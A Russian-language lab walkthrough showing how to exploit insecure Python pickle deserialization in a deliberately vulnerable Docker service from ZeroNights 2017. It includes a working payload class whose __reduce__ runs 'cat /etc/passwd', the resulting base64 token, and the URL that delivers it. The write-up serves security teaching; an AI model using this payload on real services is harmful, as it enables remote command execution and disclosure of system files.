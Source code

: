 
# Ссылки

Docker container: https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser

Материалы:
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20deserialization/Python.md
- https://docs.python.org/2/library/pickle.html#pickling-and-unpickling-extension-types
- https://habr.com/ru/post/186608/
- http://qaru.site/questions/1650451/how-reduce-function-exactly-works-in-case-of-pickle-module
- https://github.com/f47h3r/exploit_code/blob/master/graphite_pickle_exploit.py

# Уязвимый сервис

## Развертывание

Собираем и запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser). 
В данном примере уязвимый сервис будет находиться на http://picle.lab

## Обзор

Сервис имеет следующий функционал:
1. set your name, например http://pickle.lab/?name=pwn.pas
2. "Посмотреть на себя", например http://127.0.0.1:9090/pydeser?sess=Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAwCihjbWFpbgpVc2VyCnAxCmNfX2J1aWx0aW5fXwpvYmplY3QKcDIKTnRwMwpScDQKKGRwNQpTJ2lkJwpwNgpJNzEzNjMKc1MnbmFtZScKcDcKVnB3bi5wYXNzCnA4CnNiLg==

# Эксплуатация

## Шаг 1

Используем следующий код для генерации серелиазованного объекта

```python
import cPickle
import base64

class Evil(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (('cat', '/etc/passwd',),))

e = Evil()
evil_token = base64.b64encode(cPickle.dumps(e))
print "Your Evil Token : %s" % (evil_token, )
```

Результат:

```
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=
```

## Шаг 2

Переходим на http://pickle.lab/pydeser?sess= и для параметра sess подставляем полученный объект на шаге 1

`http://pickle.lab/pydeser?sess=Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=`

Результат

![](img/pickle_1.png)
